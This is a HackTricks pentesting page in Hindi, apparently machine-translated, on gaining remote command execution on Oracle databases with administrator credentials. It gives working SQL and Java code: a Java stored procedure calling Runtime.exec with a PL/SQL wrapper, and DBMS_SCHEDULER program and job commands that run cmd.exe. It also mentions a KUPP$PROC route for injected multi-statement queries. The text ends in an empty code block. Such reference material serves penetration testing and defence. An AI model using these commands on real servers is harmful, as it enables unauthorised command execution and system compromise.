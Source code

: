 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


# RCE: जावा स्टोर्ड प्रोसीजर

तो, सोचिए कि आपके पास व्यवस्थापक खाता की जानकारी है। इस मामले में, सर्वर पर अपने कमांड को चलाने का एक बहुत प्रसिद्ध तरीका है 'जावा स्टोर्ड' प्रोसीजर लिखना। इसके लिए, पहले, 'sqlplus' टर्मिनल के माध्यम से कनेक्ट करें और एक जावा कक्षा 'oraexec' बनाएं। इसके लिए, निम्नलिखित को लिखें:
```text
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
public class oraexec
{
public static void execCommand(String command) throws IOException
{
Runtime.getRuntime().exec(command);
}
}
/

```
अगले, इस क्लास के लिए एक PL/SQL रैपर लिखें:
```text
create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /
```
यही है। अब, एक कमांड को निष्पादित करने के लिए, आपको बस निम्नलिखित क्वेरी भेजनी होगी:
```text
exec javacmd('command');
```
ध्यान दें कि उपरोक्त प्रक्रिया का उपयोग करते समय, हम निष्पादित कमांड के परिणाम नहीं देख सकते हैं, हालांकि, आप आउटपुट को एक फ़ाइल में रीडायरेक्ट कर सकते हैं और इसे पढ़ सकते हैं। आप फ़ाइलों को पढ़ने और लिखने की अनुमति देने वाले शैल का पूरा कोड यहां पा सकते हैं:

{% file src="../../.gitbook/assets/raptor\_oraexec.sql" %}

हालांकि, एक \[और विकसित स्क्रिप्ट\] (goo.gl/EuwPRU) है जो कमांड आउटपुट को संभालता है, लेकिन इसका आकार अधिक है [यहां](https://oracle-base.com/articles/8i/shell-commands-from-plsql)।

# RCE: Scheduler

अगली विधि, जो हमें मदद करेगी अगर कोई जावा वर्चुअल मशीन नहीं है, वह है 'dbmsscheduler' का उपयोग करना, जो ओरेकल का अंतर्निहित कार्य समय निर्धारक है। इसका उपयोग करने के लिए, आपको 'CREATE EXTERNAL JOB' विशेषाधिकार होना चाहिए। यहां एक कोड नमूना है जो सी: ड्राइव की रूट में एक पाठ फ़ाइल में '0wned' स्ट्रिंग को दर्ज करता है:
```text
exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned &gt;&gt; c:\rds3.txt',0,TRUE);
exec DBMS_SCHEDULER.create_job(job_name =&gt; 'RDS2008JOB',program_name =&gt; 'RDS2008',start_date =&gt; NULL,repeat_interval =&gt; NULL,end_date =&gt; NULL,enabled =&gt; TRUE,auto_drop =&gt; TRUE);
```
यह आपके कमांड को निष्पादित करने के लिए एक नौकरी बनाएगा और चलाएगा। और यहां एक विकल्प है जिससे आप दूसरी प्रक्रिया से स्केड्यूलर को बुला सकते हैं - 'SYS.KUPP$PROC.CREATE\_MASTER\_PROCESS', जो हमारे लिए महत्वपूर्ण है, मुख्य रूप से इसलिए कि इसकी मदद से आप बहु-वक्तव्य क्वेरी को सम्मिलित कर सकते हैं, अर्थात उनके जिनमें कई उप-क्वेरी होती हैं। सिद्धांत रूप से, आप ऐसी क्वेरी को चला सकते हैं जो वेब एप्लिकेशन में संक्रमण में भी हो।
```text
```